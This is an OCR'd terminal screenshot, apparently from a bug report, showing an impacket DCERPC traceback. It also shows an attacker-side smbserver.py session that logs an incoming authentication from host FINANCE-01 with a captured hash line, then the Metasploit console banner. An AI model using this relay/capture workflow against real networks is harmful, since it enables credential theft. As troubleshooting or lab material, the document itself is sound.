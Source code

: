 ```
    return self.send(DCERPC_RawCall(function, body.getData(), uuid))
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/dcerpc/v5/rpcrt.py", line 1298, in send
    self._transport_send(data)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/dcerpc/v5/rpcrt.py", line 1235, in _transport_send
    self._transport.send(rpc_packet.get_packet(), forceWriteAndx = forceWriteAndx, forceRecv = forceRecv)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/dcerpc/v5/transport.py", line 535, in send
    self.__smb_connection.writeFile(self.__tid, self.__handle, data)
  File "/usr/local/lib/python3.10/dist-packages/impacket-0.9.24.dev1+20210704.162046.29ad5792-py3.10.egg/impacket/smbconnection.py", line 570, in writeFile
    raise SessionError(e.get_error_code(), e.get_error_packet())
impacket.smbconnection.SessionError: SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)

┌──(root㉿kali)-[~/home/witty/Desktop/impacket]
└─# smbserver.py share /root/Desktop/share/ -smb2support 
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.66.59,58277)
[*] AUTHENTICATE_MESSAGE (\,FINANCE-01)
[*] User FINANCE-01\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.66.59,58277)
[*] Remaining connections []

┌──(root㉿kali)-[~]
└─# ls
bettercap.history  Desktop  home  wittyAle
                                                                                                             
┌──(root㉿kali)-[~]
└─# msfconsole                
                                                  

 ______________________________________________________________________________
|                                                                              |
|                   METASPLOIT CYBER MISSILE COMMAND V5                        |
|______________________________________________________________________________|
      \                                  /                      /
       \     .                          /                      /            x
        \                              /                      /
         \                            /          +           /
          \            +             /                      /
           *                        /                      /
                                   /      .               /
    X                             /                      /            X
                                 /                     ###
                                /                     # % #
                               /                       ###
                      .       /
     .                       /      .            *           .
```